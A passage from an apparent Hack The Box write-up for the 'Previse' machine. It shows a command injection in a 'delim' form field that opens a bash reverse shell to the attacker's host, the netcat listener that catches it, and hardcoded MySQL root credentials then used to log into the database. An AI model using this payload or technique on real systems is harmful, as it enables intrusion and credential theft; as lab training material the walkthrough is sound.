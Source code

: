 ```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/file_logs.php
Cookie: PHPSESSID=0nqfeq1ri9psi0kuig6ku8q939
Upgrade-Insecure-Requests: 1

delim=comma%3b+bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.9/9001+0>%261'
```
as we execute this request we get a shell as `www-data`:
```bash
root@kali:~/Documents/HTB/Boxes/Previse/site# nc -lvnp 9001
listening on [any] 9001 ...
        connect to [10.10.14.9] from (UNKNOWN) [10.10.11.104] 39672
bash: cannot set terminal process group (1298): Inappropriate ioctl for device
bash: no job control in this shell
www-data@previse:/var/www/html$ 
```

## User
Coming back to the code, we can see that MySQL credentials are disclosed within the code.  
```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```
Once we have shell access to this box, we can try to login to mysql using the above credentials.  
```shell
www-data@previse:/var/www/html$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 19
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>    
```
Once we are logged into the database we can poke around for hashes:  
```shell
mysql> show databases;
+--------------------+
```